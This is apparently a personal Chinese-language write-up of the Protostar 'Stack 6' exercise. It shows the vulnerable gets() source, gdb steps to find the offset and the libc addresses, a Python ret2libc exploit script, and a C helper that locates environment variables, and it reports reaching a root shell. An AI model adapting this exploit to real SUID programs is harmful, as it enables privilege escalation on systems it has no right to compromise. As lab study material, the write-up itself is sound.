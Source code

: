 # Stack 6

## （一） 题目：

\#include &lt;stdlib.h&gt;

\#include &lt;unistd.h&gt;

\#include &lt;stdio.h&gt;

\#include &lt;string.h&gt;

void getpath\(\)

{

char buffer\[64\];

unsigned int ret;

printf\("input path please: "\); fflush\(stdout\);

gets\(buffer\);

ret = \_\_builtin\_return\_address\(0\);

if\(\(ret & 0xbf000000\) == 0xbf000000\) {

```
printf\("bzzzt \(%p\)\n", ret\);

\_exit\(1\);
```

}

printf\("got path %s\n", buffer\);

}

int main\(int argc, char \*\*argv\)

{

getpath\(\);

}

## （二）解题过程：

这个是典型的的ROP ，绕过栈保护的一种方法。ret2libc意思是返回到c库。调用system函数执行/bin/sh 然后用exit\(\)退出。最终攻击的payload会是：

填充padding --&gt; system（）地址--&gt;exit\(\)地址----&gt;/bin/sh

1\)判断stack6是否有suid权限

![](/png/26.png)

stack6 有suid权限。

2）首先，调用system后，需要执行/bin/sh.要实现这个，需要两步：

把/bin/sh放到环境变量里 $shell

然后system（）调用该变量。

方法：

export SHELL=/bin/sh

echo $SHELL

要想得到变量$SHELL的地址，需要用到gdb调试器

b main  在main函数下断点。

r   运行

查看环境变量的地址和值

x/s \* \(\(char \*\*\)environ+x\)   x是一个数字，然后就打印出相应的变量地址

![](/png/27.png)

3）知道了变量的地址后，来获取漏洞溢出的偏移位置。

![](/png/28.png)

4）gdb 执行进入输入路径填充

![](/png/29.png)

溢出点出现。

![](/png/30.png)

偏移80的地方。此时查看system\(\)和exit\(\)地址

![](/png/31.png)

5）编写漏洞利用代码exploit.py

```
结构如下：
```

import struct

buff = 'A'\*80

system = struct.pack\("I",0xb7ecffb0\)

exit = struct.pack\("I",0xb7ec60c0\)

shell = struct.pack\("I",0xbfffff82\)

print buff+system+exit+shell

![](/png/32.png)

We have to remember that the address of `SHELL`is not the exact address and we will need to go up or down for a little bit. We will execute the script and redirect the output to a file and name it payload. `python /tmp/stack6.py > /tmp/payload` , Then we will cat the file and pipe the output to `./stack6`

难点在于需要调整SHELL变量的地址。测试了好几次没找到正好地。明天接着试试。

![](/png/33.png)

测试中发现可能是环境变量选择的问题。尝试换一个环境变量执行TTE="whoami"

另外环境变量地址的获取方法最好使用程序老获取，gdb获取的不准确，不好调整。

export TTE="whoami"

获取环境变量地址的c代码如下：

getaddress.c

![](/png/34.png)



\#include &lt;stdio.h&gt;

\#include &lt;stdlib.h&gt;

\#include &lt;string.h&gt;

int main\(int argc, char \*argv\[\]\) {

```
            char \*ptr;

            if\(argc &lt; 3\) {

                            printf\("Usage: %s &lt;environment variable&gt; &lt;target program name&gt;\n", argv\[0\]\);

                            exit\(0\);

            }

            ptr = getenv\(argv\[1\]\); /\* get env var location \*/

            ptr += \(strlen\(argv\[0\]\) - strlen\(argv\[2\]\)\)\*2; /\* adjust for program name \*/

            printf\("%s will be at %p\n", argv\[1\], ptr\);
```

![](/png/35.png)

stack6.py 的脚本如下：

![](/png/36.png)

根据反馈信息，地址做了微调。程序最后返回root.

那么，现在做一下验证，再把TTE环境变量改回"/bin/sh"试试看。



ref：

[https://blog.csdn.net/stonesharp/article/details/38402953?utm\_source=blogxgwz4](https://blog.csdn.net/stonesharp/article/details/38402953?utm_source=blogxgwz4)

[https://programlife.net/](https://programlife.net/)

[https://0xrick.github.io/binary-exploitation/bof6/](https://0xrick.github.io/binary-exploitation/bof6/)

[https://www.shellblade.net/posts.html](https://www.shellblade.net/posts.html)

